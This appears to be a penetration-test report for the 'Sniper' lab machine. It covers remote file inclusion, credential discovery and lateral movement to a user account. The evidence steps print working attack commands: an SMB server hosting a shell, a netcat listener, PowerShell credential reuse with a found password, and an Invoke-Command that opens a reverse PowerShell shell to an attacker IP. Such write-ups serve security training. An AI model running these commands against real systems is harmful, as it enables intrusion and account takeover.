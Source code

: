 
# Executive Summary – Sniper 
A vulnerability was discovered in the web application that allows the server to reveal and access files it should keep private. During testing, this weakness allowed the application to retrieve files from external sources, which in turn exposed sensitive information such as user credentials. These credentials were then used to access a local account on the server. Because the exposed credentials could potentially be reused across other systems, this creates a credible risk for an attacker to move laterally within the network and gain access to additional systems or sensitive data.

# Remote File Inclusision 

## Description
To do 


## Impact 
High. The vulnerability allowed disclosure of confidential information (including cleartext credentials and user identifiers) via file inclusion. Those credentials were validated against a host account, enabling account takeover of a local user. With valid credentials and file‑disclosure capability, an attacker could perform lateral movement, access sensitive data, and — in worst‑case scenarios — achieve remote command execution on other systems. This has direct consequences for confidentiality, integrity, and availability of the affected environment.

## Likelihood:
The filename-construction pattern (user_input + extensions → blog-es.php) is a well-known indicator that testers and attackers will probe for Local File Inclusion (LFI). Because the application builds filenames from user-controlled input, the probability that an attacker can manipulate this to read arbitrary local files is high unless the input is strictly validated or mapped to a whitelist.


## Evidence:

1. Turn on Bupr Suite and suite and change to a known windows location. As you can see we have exposure of file. 
    <img src="images/LFI-test.png" alt="LFI test">

2. Turn Public folder into SMB and upload Remote Code Execution shell 
    impacket-smbserver -smb2support SMB1 /home/franky/Public 
3. Create reverse shell and upload file to smb folder
4. Start Netcat `nc -lvnp 1234`
5. Upload file to server 
    <img src="images/smb-uploadt.png" alt="smb upload">
6. Look for files on server and will find a password 
<img src="images/password.png" alt="password found">
7. Change dirctory to C:\Users to find other user Chris 
8. Creates a PSCredential for SNIPER\Chris using password we found and uses it to remote machine SNIPER as Chris. 

`$pass = "36mEAhz/B8xQ~2VM"`

`$pass = ConvertTo-SecureString "36mEAhz/B8xQ~2VM" -AsPlainText -Force`

`$cred = New-Object  System.Management.Automation.PSCredential("SNIPER\\Chris", $pass)`

Check to see if it was successful 
` Invoke-Command -ComputerName SNIPER -Credential $cred -ScriptBlock {whoami} `

9. Run netcat from an SMB share on SNIPER (authenticating as $cred) to create a reverse PowerShell shell back to our machine as Chris. 

` Invoke-Command -ComputerName SNIPER -Credential $cred -ScriptBlock {\\10.10.16.34\smb1\nce.exe 10.10.16.34 9001 -e powershell}`

Note: If have issues use Test-Path to see if issue with acessing SMB 

<img src="images/rce-chris.png" alt="rce chris">

Have access to the user Chris terminal  

<img src="images/chris.png" alt="chris">






